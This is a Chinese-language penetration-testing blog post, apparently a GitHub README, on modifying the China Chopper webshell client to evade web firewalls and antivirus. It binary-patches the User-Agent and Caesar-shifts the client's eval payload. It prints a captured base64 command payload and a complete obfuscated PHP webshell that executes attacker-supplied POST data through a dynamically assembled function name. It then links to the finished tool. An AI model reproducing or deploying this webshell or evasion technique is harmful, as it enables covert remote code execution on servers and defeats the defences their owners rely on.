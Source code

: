 # BypassCaiDao

---
title: 打造一款专属的Bypass菜刀
date: 2018-03-01 06:16:23
tags: [Bypass菜刀,修改菜刀]
categories:
- 渗透测试
- Bypass系列
- Bypass菜刀
---

这个方法曾在17年1月1日发表在T00LS(原帖地址：https://www.t00ls.net/thread-37535-1-1.html)，从未公开发表在博客，今天把方法发布出来，愿对各位道友有用，从而做出更好的Bypass菜刀

<!--more-->

# 准备工作

## 一把菜刀

20100928发布的老版菜刀

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520635301.7899988.png)

## 查壳及脱壳

**查壳**

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520635126.9899032.png)

可以看到，菜刀使用了UPX压缩壳. UPX壳主要是压缩作用，很容易脱壳.

**脱壳**

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520635368.7694461.png)

直接把软件拖进去即可脱壳。

# 免杀原理

分析菜刀在连接webshell的时候发送的数据包情况，用WSExplorer或者Wireshark来抓包。

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520635498.3892045.png)

我们可以看出，菜刀连接webshell的时候发送的数据内容是：

```php
x=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskRD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7ZWNobyAkRC4iXHQiO2lmKHN1YnN0cigkRCwwLDEpIT0iLyIpe2ZvcmVhY2gocmFuZ2UoIkEiLCJaIikgYXMgJEwpaWYoaXNfZGlyKCRMLiI6IikpZWNobygkTC4iOiIpO307ZWNobygifDwtIik7ZGllKCk7
```

菜刀在连接Webshell的时候会发送两段数据,分别是x 和 z0 

* x 是shell的密码，其中的数据是让shell再接收一个z0

* z0 中存放着执行命令，列目录，修改文件等操作的PHP代码,并试用base64加密数据.

经过测试发现，防火墙的拦截点有以下两点：

* 1.UA头，防火墙捕捉了一些恶意软件的UA头，一点发现UA头在列表中，则判断为恶意行为.

* 2.第一个参数x中的数据,赤裸裸的eval,哪个防火墙看见了也会拦截.

所以要做免杀就要做以下两点处理：

* 1.修改UA头，改成百度蜘蛛的UA 或者 正常浏览器的UA均可

* 2.将第一个参数中的数据也进行假面处理

# 实现免杀

## 修改UA头

由于改后的UA比原本的UA长，因此我们需要在程序领空的其他空白地方进行修改，免得覆盖程序代码.

正常的Chrome UA如下：

    Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36

用C32asm修改后：

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520636836.3815837.png)

OK，先记下这个地址000006E0

C32里面显示的是文件偏移地址，而OD显示的是内存偏移地址,那么需要在OD中找到文件偏移地址对应的内存偏移地址，然后将原来UA的地址换成新UA的地址

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520640096.5132568.png)

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520640157.3005311.png)

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520640189.9141579.png)

然后记录下这个内存偏移地址为：004006E0

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520640340.4536626.png)

找到将UA压栈的地方，修改地址为新的UA地址

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520640432.8110437.png)

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520642064.3123608.png)

然后右击 "复制到可执行文件" -> 右击"保存文件"

再抓包测试：

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520642552.2321646.png)

看到UA已经修改了

## 修改第一个参数数据

把@eval(base64_decode($_POST[z0])); 这段代码来进行自定义加密，然后再在shell中解密，这样也可以防止菜刀有后门。

我的自定义加密采用了凯撒密码：按照ascii表向后移动四位(尽量避开特殊字符，否则会失败),加密后的数据是 Dizep,fewi:8chigshi,(cTSWX_~4a--? 而杀软并不识别这段密文，因此达到免杀效果。

先在C32asm中搜索字符串

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520642620.2078102.png)

然后把里面的 @eval(base64_decode($_POST[z0])); 用 Dizep,fewi:8chigshi,(cTSWX_~4a--? 进行替换。

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520642834.6626763.png)

然后保存文件就大功告成了。

# 用法

在已经做过免杀的shell中添加以下代码：

```php
function aaa($arr){
    $arr = stripcslashes($arr);
    for($i=0;$i<strlen($arr);$i++){
		$arr[$i]=chr(ord($arr[$i])-4);
    }
    return $arr;
}
aaa($_POST['x']);  // 解密传输数据
```

示例：

```php
<?php
function aaa($arr){
    $arr = stripcslashes($arr);
    for($i=0;$i<strlen($arr);$i++){
		$arr[$i]=chr(ord($arr[$i])-4);
    }
    return $arr;
}

$a=md5('ssss');
echo $a.'';
$b=substr($a,2,2)+37;
$s=$b+18;
$e=substr($a,-7,1);
$r=$s-1;
$t=$r+2;
$z=chr($b).chr($s).chr($s).$e.chr($r).chr($t);
$arr = aaa($_POST['x']);
$z($arr);
?>
```

![](https://blog-1252108140.cosbj.myqcloud.com/201803/1520643284.9058053.png)

# 成品地址

[Bypass菜刀](https://github.com/admintony/BypassCaiDao)
